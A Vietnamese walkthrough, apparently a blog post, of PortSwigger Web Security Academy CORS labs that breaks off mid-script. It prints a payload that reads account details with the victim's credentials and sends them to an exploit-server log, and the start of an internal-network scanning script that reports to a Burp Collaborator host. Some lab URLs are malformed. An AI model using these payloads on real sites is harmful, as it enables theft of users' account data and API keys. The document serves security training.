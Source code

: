 Vì bài này chú tâm đến các giao thức nên mình sẽ thử những chức năng liên quan đến API, điển hình như trong web sẽ có chức năng Check Stock, chúng ta bắt request của chức năng này xem và phân tích.


Như đã thấy thì chức năng này sẽ lấy data từ 1 tên miền phụ khác là : *http://stock.https://acfb1faa1ec0c6ec81f22d5200ae00ad.web-security-academy.net* chúng ta có thể lợi dụng tên miền này để leak APIKey như những bài trước, để kiểm tra giả thiết thì thử thay thế Origin Header ở phần account xem có được phép hay không




Sau đó dựa theo form khai thác dựa trên tên miền phụ được phép truy cập dữ liệu như sau ;
```
<script>
   document.location="http://stock.https://acfb1faa1ec0c6ec81f22d5200ae00ad.web-security-academy.net/?productId=4
   <script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://https://acfb1faa1ec0c6ec81f22d5200ae00ad.
   web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() 
   {location='https://exploit-ac131f241ecbc63281092d6d012d001e.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Sau đó Store payload Deliver to Victim để gửi payload sang trang web mà mình exploit



Access log để hiện những data mà mình leak được thông qua tên miền phụ như sau ;

Truy cập decoder của Burp để decoder url và lấy apikey để submit


### Lab: CORS vulnerability with internal network pivot attack

Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các nguồn gốc của mạng nội bộ.

Lab này yêu cầu nhiều bước để hoàn thành. Để giải quyếtlab, hãy tạo một số JavaScript để định vị điểm cuối trên mạng cục bộ (192.168.0.0/24, cổng 8080) mà sau đó bạn có thể sử dụng để xác định và tạo một cuộc tấn công dựa trên CORS để xóa người dùng. Lab được giải quyết khi bạn xóa người dùng Carlos.
  
  
Trường hợp mà bài lab này đưa ra đó chính là chúng ta phải tìm được vị trí của 1 private IP mà website này tin tưởng và dựa vào đó để tấn công và xóa đi người dùng, 

Đây là 1 bài cấp độ Expert có nghĩa là 1 bài cực kỳ phức tạp và level cao. Tuy nhiên chúng ta đã biết được cách thức khai thác là gì nên bây giờ sẽ follow theo hướng dẫn và exploit nó thôi.


##### Bước đầu tiên: quét mạng nội bộ

Đầu tiên việc chúng ta cần làm là quét mạng nội bộ để tìm ra được địa chỉ IP, để tìm được thì chúng ta cần sự hỗ trợ của Burp Suite Collaborator Client để poll những response leak được về, đoạn payload dưới đây sẽ quét từ http://192.168.0.1 - http://192.168.0.255 và tìm xem địa chỉ nào phù hợp 
```
<script>
var q = [], collaboratorURL = 'http://bbq6iwl2yh0xqnyyqkm0r8w9g0mqaf.burpcollaborator.net';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
```